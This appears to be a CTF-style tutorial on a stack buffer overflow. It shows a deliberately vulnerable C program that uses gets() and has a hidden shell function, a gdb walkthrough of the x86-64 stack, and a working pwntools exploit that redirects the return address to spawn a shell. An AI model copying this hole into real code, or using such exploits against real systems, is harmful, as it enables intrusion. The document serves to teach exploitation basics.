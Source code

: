 # Buffer overflow

Consider the code below:

```c
#include <stdio.h>
void shell(){
    system("/bin/sh");
}
int main(){
    char name[16];
    fputs("Enter name: ", stdout);
    gets(name);
    fputs("Hello: ", stdout);
    puts(name);
    return 0;
}
```

Compile: `gcc bof.c -o bof -no-pie -fno-stack-protector`

Let's test it out. As expected, the input is echoed back.

```
➜ ./bof     
Enter name: hshshhshs
Hello: hshshhshs
```

We will get a segmentation fault if the input is more than 16 characters long.

```
➜ ./bof
Enter name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[1]    1654 segmentation fault  ./bof
```

## The stack

The stack grows from high memory addresses to low memory addresses. 

The top of the stack is represented by `rbp` **(frame base pointer)**. `ebp` functions the same way as `rbp`, except it is 4 bytes instead of 8 bytes as addresses are 4 bytes on 32 bit (x86) systems. Because the stack grows from high addresses to low addresses, addresses on the stack are often represented by `rbp - x`, where x is a hex number. For example: `lea rdi,[rbp-0x10]` sets `rdi` to the address at index 16 on the stack.

The stack contains many frames, one for each function call. For this exploit we can confine ourselves to a single frame. 

`rsp` is the **stack pointer** which points to the top of the stack frame (ie the lowest allocated memory address). `rbp`>`rsp` as the stack grows downwards.

At the bottom (highest memory address) of the frame is the **return address pointer** or `rip`. This points to the next instruction to be called after the function returns ([ret](https://www.felixcloutier.com/x86/ret)). Next is `rbp`, which points to itself (this may be 4 or 8 bytes depending on x64/x86). 

Local variables are then pushed on the stack (decrementing `rsp`), in the order they are declared. 

<img src="https://www.coengoedegebure.com/content/images/2018/08/stackbuffer.png" alt="stackbuffer" style="zoom: 50%;" />

However, buffers are filled in the opposite direction (towards `rbp`) on the stack.

<img src="https://www.coengoedegebure.com/content/images/2018/08/memoryoverflow-1.png" alt="memoryoverflow-1" style="zoom:50%;" />

This allows us to overwrite `rip`, thus allowing us to control the flow of the program.

## Registers

[X86 64 Register and Instruction Quick Start - CDOT Wiki (senecacollege.ca)](https://wiki.cdot.senecacollege.ca/wiki/X86_64_Register_and_Instruction_Quick_Start)

`rbp`: Register base pointer (stack base pointer)

`rsp`: Register stack pointer (stack top pointer)

`rip`: Return instruction pointer

`rdi`: Register destination index (first argument in function call)

`rsi`: Register source index (second argument in function call)

`rdx`: Register d extended (third argument in function call)

`rcx`: Register c extended (4th argument in function call)

`r8d`: 5th argument in function call

`r9d`: 6th argument in function call

## Analysis of our program

Let's run the program in `gdb` and find out what's going on.

```assembly
gdb-peda$ disas main
Dump of assembler code for function main:
   0x000000000000117d <+0>:     push   rbp
   0x000000000000117e <+1>:     mov    rbp,rsp
   0x0000000000001181 <+4>:     sub    rsp,0x10
   0x0000000000001185 <+8>:     mov    rax,QWORD PTR [rip+0x2ebc]        # 0x4048 <stdout@GLIBC_2.2.5>
   0x000000000000118c <+15>:    mov    rcx,rax
   0x000000000000118f <+18>:    mov    edx,0xc
   0x0000000000001194 <+23>:    mov    esi,0x1
   0x0000000000001199 <+28>:    lea    rdi,[rip+0xe6c]        # 0x200c
   0x00000000000011a0 <+35>:    call   0x1060 <fwrite@plt>
   0x00000000000011a5 <+40>:    lea    rax,[rbp-0x10]
   0x00000000000011a9 <+44>:    mov    rdi,rax
   0x00000000000011ac <+47>:    mov    eax,0x0
   0x00000000000011b1 <+52>:    call   0x1050 <gets@plt>
   0x00000000000011b6 <+57>:    mov    rax,QWORD PTR [rip+0x2e8b]        # 0x4048 <stdout@GLIBC_2.2.5>
   0x00000000000011bd <+64>:    mov    rcx,rax
   0x00000000000011c0 <+67>:    mov    edx,0x7
   0x00000000000011c5 <+72>:    mov    esi,0x1
   0x00000000000011ca <+77>:    lea    rdi,[rip+0xe48]        # 0x2019
   0x00000000000011d1 <+84>:    call   0x1060 <fwrite@plt>
   0x00000000000011d6 <+89>:    lea    rax,[rbp-0x10]
   0x00000000000011da <+93>:    mov    rdi,rax
   0x00000000000011dd <+96>:    call   0x1030 <puts@plt>
   0x00000000000011e2 <+101>:   mov    eax,0x0
   0x00000000000011e7 <+106>:   leave  
   0x00000000000011e8 <+107>:   ret    
End of assembler dump.
```

First, `rbp` is pushed onto the stack and `rsp` is moved into `rbp`, setting them to the same value.

Next, 16 bytes are allocated for the buffer:` sub rsp,0x10`

Next, the `gets` function call:

```asm
0x00000000000011a5 <+40>:    lea    rax,[rbp-0x10]
0x00000000000011a9 <+44>:    mov    rdi,rax
0x00000000000011ac <+47>:    mov    eax,0x0
0x00000000000011b1 <+52>:    call   0x1050 <gets@plt>
```

In line 1, the [LEA](https://www.felixcloutier.com/x86/lea) (load effective address) loads the address of `rbp-16` into `rax`. This is the address of the 'end' of the buffer. The buffer will be filled from here up towards `rbp`. In line 2, `rax` is moved into `rdi`, which is the pointer for the first argument of a function. In line 4, `gets` is called. 

Our goal is to call the `shell` function, so let's find out where it is:

```asm
gdb-peda$ disas shell
Dump of assembler code for function shell:                                                                 
   0x0000000000401152 <+0>:     push   rbp   
```

So the function is at `0x0000000000401152`. We can begin to craft our payload using pwntools.

## Pwntools

```python
# Import pwntools
from pwn import *

# Start process
p = process("./bof")
# Load ELF
e = ELF("./bof")

# Get address of shell function from ELF
# p64(x) to turn x into 64 bit little endian
address = p64(e.symbols["shell"])

# 16 bytes to fill buffer, 8 bytes for rbp
offset = 16 + 8

payload = b"a" * offset + address
# Send payload
p.sendline(payload)
# Allow us to get shell afterwards!
p.interactive()
```

Output:

```shell
➜ python3 exp-bof.py                           
[+] Starting local process './bof': pid 2191
[*] '/home/kali/Desktop/ctf-stuff/pwn/bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
Enter name: Hello: aaaaaaaaaaaaaaaaaaaaaaaaR\x11
$ ls
bof  bof.c exp-bof.py
$  
```

